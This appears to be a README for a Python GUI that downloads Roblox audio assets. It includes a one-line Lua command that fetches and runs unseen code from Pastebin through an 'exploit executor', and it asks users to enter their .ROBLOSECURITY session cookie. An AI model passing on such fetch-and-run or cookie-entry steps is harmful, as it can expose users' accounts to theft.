 # Roblox Audio Fetcher Downloader

A GUI tool to download audio assets from Roblox.

> **Note:** We recommend using a Roblox alternate account (alt) and its corresponding `.ROBLOSECURITY` cookie to avoid potential security and privacy risks.

> **For Roblox Script Execution:**
> If you'd like to use this script, you can execute the provided Lua script in your game. Use the following command in any roblox exploit executor:
>
> ```lua
> loadstring(game:HttpGet('https://pastebin.com/raw/v7Usg709', true))()
> ```
>
> If you have concerns about the script's safety, you can visit the [Pastebin URL](https://pastebin.com/raw/v7Usg709) directly to review the code. 

> **Need Help?**
> If you require assistance or have questions about using the tool, refer to the detailed instructions provided in the [howto.txt](howto.txt) file.

> The Place Id as to have Audio Id/Asset Id connected to the place id

## Usage

1. Clone or download the repository.

2. Install the required Python packages: ```pip install requests```
  
3. Run the audio.py script using Python: ```python audio.py```

4. Enter your Roblox cookie (.ROBLOSECURITY) and the target place ID in the GUI.

5. Choose a text file containing a list of asset IDs separated by commas.

6. Click the "Download All Audio Files" button to start downloading.

7. Downloaded audio assets will be stored in the audio_files folder.

   # Requirements
Python 3.x
Tkinter (usually included with Python)
Requests library

# License
This project is licensed under the MIT License.

Please follow the previous instructions to create the repository and add the `audio.py` file. Simply copy and paste the content of the provided `README.md` without the comments into your repository's `README.md` file.
